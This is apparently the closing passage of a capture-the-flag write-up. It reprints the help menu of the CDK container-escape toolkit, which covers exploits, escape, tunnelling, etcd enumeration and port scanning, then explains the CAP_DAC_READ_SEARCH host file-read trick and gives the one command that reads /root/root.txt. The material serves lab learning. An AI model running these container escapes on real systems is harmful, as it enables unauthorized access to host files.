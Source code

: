 ```bash


Exploit:
  cdk run --list                            List all available exploits.
  cdk run <exploit> [<args>...]             Run single exploit, docs in https://github.com/cdk-team/CDK/wiki
  cdk auto-escape <cmd>                     Escape container in different ways then let target execute <cmd>.

Tool:
  vi <file>                                 Edit files in container like "vi" command.
  ps                                        Show process information like "ps -ef" command.
  nc [options]                              Create TCP tunnel.
  ifconfig                                  Show network information.
  kcurl <path> (get|post) <uri> [<data>]    Make request to K8s api-server.
  ectl <endpoint> get <key>                 Unauthorized enumeration of ectd keys.
  ucurl (get|post) <socket> <uri> <data>    Make request to docker unix socket.
  probe <ip> <port> <parallel> <timeout-ms> TCP port scan, example: cdk probe 10.0.1.0-255 80,8080-9443 50 1000

Options:
  -h --help     Show this help msg.
  -v --version  Show version.

```
Checking the tool's wiki I found this exploit which give me the previlige to read arbitary files.

If container is run with `CAP_DAC_READ_SEARCH` capability it is able to read arbitrary file from host system. This is possible because CAP_DAC_READ_SEARCH gives ability to bypass DAC (discretionary access control) checks and open files by file handles which are global file identifiers


```bash
 ./cdk run cap-dac-read-search /root/root.txt
```

This is it. 